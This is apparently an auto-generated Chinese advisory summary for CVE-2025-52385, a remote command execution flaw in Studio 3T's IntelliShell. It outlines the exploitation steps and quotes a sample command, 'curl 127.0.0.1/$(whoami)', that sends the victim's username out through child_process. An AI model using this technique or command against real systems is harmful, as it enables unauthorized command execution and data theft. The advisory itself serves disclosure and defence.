 ## CVE-2025-52385-Studio 3T-远程命令执行

**漏洞编号:** CVE-2025-52385

**漏洞类型:** 远程命令执行

**影响应用:** Studio 3T

**危害等级:** 高危，可能导致远程代码执行和权限提升

**影响版本:** <= 2025.1.0

**利用条件:** 需要连接到MongoDB实例并通过IntelliShell发送恶意payload

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

根据提供的漏洞利用代码，此漏洞存在于Studio 3T v.2025.1.0及更早版本中。攻击者可以通过IntelliShell组件发送恶意的JavaScript payload，利用`child_process`模块执行任意操作系统命令。漏洞利用方式如下：

1.  攻击者首先需要建立与MongoDB实例的连接。
2.  然后，通过IntelliShell发送包含恶意JavaScript代码的payload。
3.  Payload中的JavaScript代码使用`child_process`模块来执行操作系统命令，例如`curl 127.0.0.1/$(whoami)`。该命令会将受害者机器的用户名发送到攻击者的服务器，验证漏洞的存在。

**有效性：** 根据POC代码，漏洞利用是有效的。该POC展示了如何通过IntelliShell执行任意命令。

**投毒风险：**  该漏洞利用代码主要包含利用child_process执行系统命令。虽然POC中展示的命令是无害的（curl一个本地地址），但攻击者可以替换成更具破坏性的命令。投毒风险评估为10%，原因是POC代码本身只包含漏洞验证，真正的风险在于攻击者利用该漏洞注入恶意命令。

**利用方式：**

1.  建立与目标MongoDB实例的连接。
2.  通过IntelliShell发送精心构造的恶意JavaScript payload，payload需包含调用child_process执行任意系统命令的代码。
3.  服务器执行payload，攻击者成功利用漏洞。

**项目地址:** [Kov404/CVE-2025-52385](https://github.com/Kov404/CVE-2025-52385)

**漏洞详情:** [CVE-2025-52385](https://nvd.nist.gov/vuln/detail/CVE-2025-52385)